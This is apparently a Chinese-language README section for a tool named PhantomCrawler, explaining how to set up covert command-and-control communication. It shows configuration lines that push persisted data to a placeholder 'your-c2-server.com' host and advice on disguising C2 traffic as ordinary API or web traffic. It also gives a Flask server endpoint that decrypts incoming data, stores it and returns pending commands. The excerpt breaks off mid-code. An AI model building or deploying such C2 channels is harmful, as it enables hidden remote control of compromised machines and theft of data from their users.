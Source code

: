 ## C2通信配置

### 安全的命令控制通道设置

PhantomCrawler支持隐蔽的C2通信机制，以下是设置安全通道的步骤：

1. **设置远程服务器**
   - 选择信誉良好的VPS提供商
   - 使用HTTPS协议加密通信
   - 配置服务器证书，推荐使用Let's Encrypt
   - 实施基本的访问控制和入侵检测

2. **配置加密参数**
   ```python
   # 设置远程推送
   config.set('persistence.remote_push_enabled', True)
   config.set('persistence.remote_push_url', 'https://your-c2-server.com/endpoint')
   config.set('persistence.remote_push_encryption', True)
   
   # 使用非标准端口（可选，但增加隐蔽性）
   # config.set('persistence.remote_push_url', 'https://your-c2-server.com:8443/endpoint')
   ```

3. **通信流量伪装**
   - 将C2通信伪装成正常的API调用或Web流量
   - 使用常见的HTTP头部和请求模式
   - 实现心跳机制，避免长时间空闲连接

4. **密钥管理**
   - 使用强密码学密钥保护通信
   - 定期轮换密钥
   - 考虑使用密钥分片技术

### C2服务器端实现

在C2服务器上，您需要部署一个简单的接收端点：

```python
# 示例C2服务器端点（使用Flask）
from flask import Flask, request, jsonify
import json
import base64
from cryptography.fernet import Fernet

app = Flask(__name__)

# 加密密钥（生产环境中应从安全位置获取）
ENCRYPTION_KEY = b'your-encryption-key-here'
cipher = Fernet(ENCRYPTION_KEY)

@app.route('/endpoint', methods=['POST'])
def receive_data():
    # 接收加密数据
    encrypted_data = request.data
    
    try:
        # 解密数据
        decrypted_data = cipher.decrypt(encrypted_data)
        data = json.loads(decrypted_data)
        
        # 处理数据并存储
        save_to_secure_storage(data)
        
        # 返回命令（如果有）
        return jsonify({'status': 'success', 'commands': get_pending_commands()})
    except Exception as e:
```